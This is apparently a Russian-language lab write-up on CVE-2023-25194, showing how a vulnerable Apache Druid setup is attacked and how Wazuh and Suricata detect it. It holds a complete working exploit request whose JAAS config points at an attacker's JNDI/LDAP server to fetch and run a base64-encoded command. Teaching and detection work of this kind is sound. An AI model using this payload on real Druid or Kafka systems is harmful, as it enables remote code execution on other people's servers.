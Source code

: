# CVE-2023-25194

Apache Kafka — это платформа с открытым исходным кодом, которая используется для потоковой передачи и обработки данных в реальном времени.

В API Apache Kafka Connect обнаружена возможная уязвимость, для которой требуется доступ к рабочему процессу Kafka Connect и возможность создавать/изменять на нем коннекторы с помощью произвольной конфигурации SASL JAAS клиента Kafka и протокола безопасности на основе SASL, что стало возможным в кластерах Kafka Connect начиная с Apache Kafka Connect 2.3.0. Злоумышленник может вызвать неограниченную десериализацию ненадежных данных или уязвимость RCE, если в пути к классам есть гаджеты.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После успешного запуска по адресу http://ваш-ip:8888 будет доступна домашняя страница Apache Druid

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Для начала запустите JNDI-сервер с помощью [JNDIExploit](https://github.com/vulhub/JNDIExploit)

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Затем отправьте соответствующий запрос на уязвимый хост:

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: ваш-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://jndi-сервер-ip:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3MK\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

> Здесь "aWQgPiAvdG1wL3N1Y2Nlc3MK" - полезная нагрузка "id > /tmp/success", закодированная в base64
>
>

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

После отправки запроса на уязвимом хосте создался файл /tmp/success с выводом результата команды id&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

Suricata определила это как эксплуатацию уязвимости CVE-2021-44228 (Log4Shell)

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
